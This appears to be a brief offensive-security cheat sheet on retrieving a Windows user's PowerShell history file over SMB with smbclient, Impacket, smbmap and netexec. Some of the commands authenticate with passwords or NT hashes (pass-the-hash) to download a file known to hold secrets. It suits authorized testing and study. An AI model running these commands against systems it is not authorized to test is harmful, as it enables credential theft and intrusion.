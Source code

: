 # Unix Shell

smbclient

smbclient.py

smbmap

netexec

## 01 - Samba Suite Utils

```
smb: \> more /Users/<username>/AppData/Roaming/Microsoft/Windows/Powershell/PSReadLine/ConsoleHost_history.txt

smb: \> get /Users/<username>/AppData/Roaming/Microsoft/Windows/Powershell/PSReadLine/ConsoleHost_history.txt
```

## 02 - Impacket

```
$ smbclient.py

$ smbclient.py
```

Retrieve text file.

```
# get Users\<username>\AppData\Roaming\Microsoft\Windows\Powershell\PSReadLine\ConsoleHost_history.txt
```

## 03 - SMBMap

```
$ smbmap -u "<username>" -p "<password | nt_hash>" [-d <domain>] -H <IP> --download "C$\Users\<username>\AppData\Roaming\Microsoft\Windows\Powershell\PSReadLine\ConsoleHost_history.txt"
```

## 04 - NetExec

```
$ netexec smb -u "<username>" -p "<password>" [-d <domain> | --local-auth] --get-file /Users/<username>/AppData/Roaming/Microsoft/Windows/Powershell/PSReadLine/ConsoleHost_history.txt powershell_history.txt

$ netexec smb -u "<username>" -H "<nt_hash>" [-d <domain> | --local-auth] --get-file /Users/<username>/AppData/Roaming/Microsoft/Windows/Powershell/PSReadLine/ConsoleHost_history.txt powershell_history.txt
```
